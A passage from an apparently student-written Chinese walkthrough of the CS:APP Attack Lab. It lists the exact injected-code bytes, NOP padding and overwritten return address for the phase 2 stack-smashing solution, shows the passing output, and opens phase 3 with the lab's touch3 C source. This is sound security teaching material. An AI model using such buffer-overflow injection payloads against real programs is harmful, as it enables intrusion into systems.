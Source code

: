 那么我们所需要的字节就是`b8 e4 44 60 00 67 8b 38 48 83 ec 08 c7 04 24 ec 17 40 00 c3`，共 20 字节。后续再插入 20 个字节的`nop`(0x90)

完整的字符串是`b8 e4 44 60 00 67 8b 38 48 83 ec 08 c7 04 24 ec 17 40 00 c3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 dc 61 55`，我将其保存在`phase2.txt`中。

> 注：一开始把`0x5561dc78`打成了`0x5564dc78`导致出现访问了未被初始化的位置，出现了 segmentation fault。在输入地址的时候要小心谨慎，不要出现太多问题。
>
> 此外，注入代码的时候需要手动添加`ret`指令，否则程序不知道要返回，就算 buffer overflow 覆盖了返回地址也没用。

结果如下：

```bash
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:B8 E4 44 60 00 67 8B 38 48 83 EC 08 C7 04 24 EC 17 40 00 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55
```

成功！

### Phase 3：在 buf 中插入所需字符串和攻击代码，并覆盖返回地址

在 phase 3 中，我们需要让程序在`getbuf`后，运行`touch3`函数，其注入方式和 phase 2 类似。（此处需要利用`vlevel = 3`进行跳转后验证，因此和上次一样，我们不能直接跳转到`Touch3!`语句，还是需要注入代码，将`%rdi`设置为`cookie`的值，然后再引导程序跳转到`touch3`的开头语句）。`touch3`函数的 C 语言版本如下：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3("%s")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3("%s")\n", sval);
        fail(3);
    }
    exit(0);
}
```

